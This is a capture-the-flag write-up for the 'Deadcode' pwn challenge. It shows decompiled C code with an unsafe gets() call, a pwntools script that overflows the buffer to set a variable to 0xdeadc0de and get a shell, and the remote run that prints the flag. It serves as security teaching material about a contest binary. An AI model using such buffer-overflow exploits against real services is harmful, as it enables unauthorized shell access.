 # Deadcode
**Category: Pwn**

Running the binary through Ghidra, we can see how this binary works:

```c
undefined8 main(void)

{
  char local_28 [24];
  long local_10;
  
  local_10 = 0;
  buffer_init();
  puts(
      "\nI\'m developing this new application in C, I\'ve setup some code for the new features butit\'s not (a)live yet."
      );
  puts("\nWhat features would you like to see in my app?");
  gets(local_28);
  if (local_10 == 0xdeadc0de) {
    puts("\n\nMaybe this code isn\'t so dead...");
    system("/bin/sh");
  }
  return 0;
}
```

If we can set `local_10` to have a value of `0xdeadc0de`, we will gain shell access. Since we write into `local_28` via the unsafe `gets` method, we'll be able to write extra bytes to overflow into the memory used for `local_10`.

Exploit:

```python
from pwn import *

context.binary = ELF('./deadcode')

if args.REMOTE:
    io = remote('pwn-2021.duc.tf', 31916)
else:
    io = process(context.binary.path)

io.sendline(flat(b'A'*24, p64(0xdeadc0de)))
io.interactive()
```

Run:
```
./exploit.py REMOTE
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn-2021.duc.tf on port 31916: Done
[*] Switching to interactive mode

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

What features would you like to see in my app?


Maybe this code isn't so dead...
$ ls
flag.txt
pwn
$ cat flag.txt
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}
```